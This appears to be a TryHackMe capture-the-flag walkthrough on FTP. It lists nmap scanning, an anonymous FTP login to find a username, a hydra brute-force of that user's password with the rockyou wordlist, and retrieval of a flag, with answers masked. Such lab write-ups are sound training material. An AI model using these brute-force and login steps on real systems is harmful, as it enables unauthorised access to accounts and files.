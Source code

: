	  no answer needed

- Success! What is the contents of flag.txt?

	- `THM{**********************}`

- What communications model does FTP use?

	- `client-server`

- What's the standard FTP port?

	- `21`

- How many modes of FTP connection are there?

	- `2`

- How many ports are open on the target machine?

	- `scilla port -target <TARGET_IP>`
	- `*`

- What port is ftp running on?

	- `21`

- What variant of FTP is running on it?

	- `nmap -p- -A <TARGET_IP>`
	- `vsFTPd`

- What is the name of the file in the anonymous FTP directory?

	- `ftp <TARGET_IP>`, `anonymous` and no pwd.
	- `ls`
	- `**************.txt`

- What do we think a possible username
could be?

	- `get *************.txt`
	- Then on your machine `cat *************.txt`
	- `Mike`

- Great! Now we've got details about the FTP server and, crucially, a possible username. Let's see what we can do with that...

	  no answer needed

- What is the password for the user "mike"?

	- `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <TARGET_IP> ftp`
	- `********`

- Bingo! Now, let's connect to the FTP server as this user using "ftp [IP]" and entering the credentials when prompted

	  no answer needed

- What is ftp.txt?

	- `ftp <TARGET_IP>`, `mike` and password.
	- `ls`
	- `get ftp.txt`
	- `exit`
	- `cat ftp.txt`
	- `THM{*********************}`

- Well done, you did it!

	  no answer needed





